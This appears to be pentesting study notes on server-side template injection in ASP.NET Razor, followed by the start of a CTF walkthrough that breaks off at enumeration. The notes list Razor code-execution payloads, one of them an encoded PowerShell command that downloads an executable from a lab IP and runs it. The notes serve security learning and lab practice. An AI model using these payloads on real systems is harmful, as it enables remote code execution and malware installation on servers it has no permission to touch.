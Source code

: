 - `@( //C#Code )`
 
- `@System.Diagnostics.Process.Start("cmd.exe","/c echo RCE > C:/Windows/Tasks/test.txt");`
 
- `@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");`
 

The .NET `System.Diagnostics.Process.Start` method can be used to start any process on the server and thus create a webshell. You can find a vulnerable webapp example in [https://github.com/cnotin/RazorVulnerableApp](https://github.com/cnotin/RazorVulnerableApp)

**More information**

- [https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/)
 
- [https://www.schtech.co.uk/razor-pages-ssti-rce/](https://www.schtech.co.uk/razor-pages-ssti-rce/)
 

# CTF

We will be using Dockerlabs machine VERDEJO: https://mega.nz/file/ZasAgTpa#czwKDizDR0-eHGyzP8OG1VCj2od-Xzq0DWbFsTVXFWw
## Enumeration

![Pasted image 20240916181317.png](../../../../IMAGES/Pasted%20image%2020240916181317.png)
Port 80 http service does not have anything interesting within it, but 8089 does, when we go in we find this: